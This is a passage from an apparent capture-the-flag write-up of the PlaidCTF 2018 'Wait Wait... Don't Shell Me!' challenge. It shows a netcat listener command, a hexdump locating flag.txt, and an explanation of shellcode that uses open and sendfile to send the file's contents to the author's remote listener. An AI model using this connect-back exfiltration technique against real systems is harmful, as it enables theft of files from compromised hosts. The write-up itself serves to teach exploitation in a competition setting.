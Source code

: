 ## Running it

First, we setup a netcat listener on our local machine with IP address 18.126.0.36 using `nc -v -l 17476`. The -v flag gives more verbose output and is helpful for determining if the server has connected to the socket.

Once we sent the filled-in values of our shellcode, we received [this file]({{ site.baseurl }}/assets/plaidctf2018/waitwait/header). Hexdumping it shows us that the string `flag.txt` is located at the offset 0xcb8!

```
$ xxd header
...
00000be0: 0000 0000 50b8 0000 0000 ba00 0000 00bf  ....P...........
00000bf0: 0000 0000 4889 000f 05be 0000 0000 bf00  ....H...........
00000c00: 0000 00ba 0000 0000 83c0 000f 0589 00b8  ................
00000c10: 0000 0000 bf00 0000 0041 ba00 0000 000f  .........A......
00000c20: 0558 662e 0f1f 8400 0000 0000 0f1f 4000  .Xf...........@.
00000c30: 4157 4156 4189 ff41 5541 544c 8d25 ce11  AWAVA..AUATL.%..
00000c40: 2000 5548 8d2d ce11 2000 5349 89f6 4989   .UH.-.. .SI..I.
00000c50: d54c 29e5 4883 ec08 48c1 fd03 e8ef faff  .L).H...H.......
00000c60: ff48 85ed 7420 31db 0f1f 8400 0000 0000  .H..t 1.........
00000c70: 4c89 ea4c 89f6 4489 ff41 ff14 dc48 83c3  L..L..D..A...H..
00000c80: 0148 39eb 75ea 4883 c408 5b5d 415c 415d  .H9.u.H...[]A\A]
00000c90: 415e 415f c390 662e 0f1f 8400 0000 0000  A^A_..f.........
00000ca0: f3c3 0000 4883 ec08 4883 c408 c300 0000  ....H...H.......
00000cb0: 0100 0200 0000 0000 666c 6167 2e74 7874  ........flag.txt
00000cc0: 0025 3032 7820 005f 5f20 0000 0000 0000  .%02x .__ ......
00000cd0: 4672 6f6d 2050 5050 2061 6e64 2050 4354  From PPP and PCT
00000ce0: 4620 5069 7474 7362 7572 6768 2c20 7468  F Pittsburgh, th
00000cf0: 6973 2069 730a 0a2b 2d2d 2d2d 2d2d 2d2d  is is..+--------
00000d00: 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d  ----------------
00000d10: 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d  ----------------
00000d20: 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d  ----------------
00000d30: 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d 2d2d  ----------------
00000d40: 2d2d 2d2b 0a7c 2020 2020 2020 2020 2020  ---+.|          
00000d50: 2020 2020 2020 2020 2020 2020 2057 6169               Wai
00000d60: 7420 5761 6974 2e2e 2e20 446f 6e27 7420  t Wait... Don't
00000d70: 5368 656c 6c20 4d65 2120 2020 2020 2020  Shell Me!
...
```

With this, we can now finish: we know the address of `flag.txt` is 0x400cb8, so we can specify this as the second argument to open, and then use the sendfile syscall to send its contents.

## socket / connect / open / sendfile

socket and connect remain unchanged. open takes three arguments: `const char *filename` (a pointer to a string which contains the path to the file), `int flags` (specifies the *access modes* and other options), and `int mode` (ignored for our use case). For us, `filename` should be 0x400cb8, `flags` should be 0 to specify opening the file in read-only mode, and `mode` can be set to 0. The syscall number of open is 2.
